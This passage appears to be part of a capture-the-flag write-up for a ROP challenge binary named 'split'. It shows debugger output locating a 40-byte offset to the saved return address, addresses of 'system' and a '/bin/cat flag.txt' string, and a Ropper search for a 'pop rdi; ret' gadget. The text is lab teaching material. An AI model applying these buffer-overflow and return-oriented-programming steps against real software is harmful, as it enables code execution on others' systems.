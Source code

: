 ```bash
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa                                                                                                                                                                                    
pwndbg> r 
pwndbg> info registers
rax            0xb                 11
rbx            0x0                 0
rcx            0x7ffff7d14887      140737351075975
rdx            0x1                 1
rsi            0x1                 1
rdi            0x7ffff7e1ca70      140737352157808
rbp            0x6161616161616165  0x6161616161616165
rsp            0x7fffffffde08      0x7fffffffde08
r8             0xa                 10
r9             0x7ffff7fc9040      140737353912384
r10            0x7ffff7c065e8      140737349969384
r11            0x246               582
r12            0x7fffffffdf28      140737488346920
r13            0x400697            4195991
r14            0x0                 0
r15            0x7ffff7ffd040      140737354125376
rip            0x400741            0x400741 <pwnme+89>
eflags         0x10202             [ IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
pwndbg> cyclic -l 0x6161616161616165
Finding cyclic pattern of 8 bytes: b'eaaaaaaa' (hex: 0x6561616161616161)
Found at offset 32

```

Distance from `rbp` equal to `32` bytes, so the distance from `saved rip` will be equal to `32+8 = 40` bytes.

Here are the memory addresses of interest to pass to our **ROP chain**:

* `call system`: 0x40074b
* `/bin/cat flag.txt`: 0x601060

The search for the *gadget* `pop rdi; ret` is done with **Ropper**:

```bash
$ ropper --file split --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret;

```
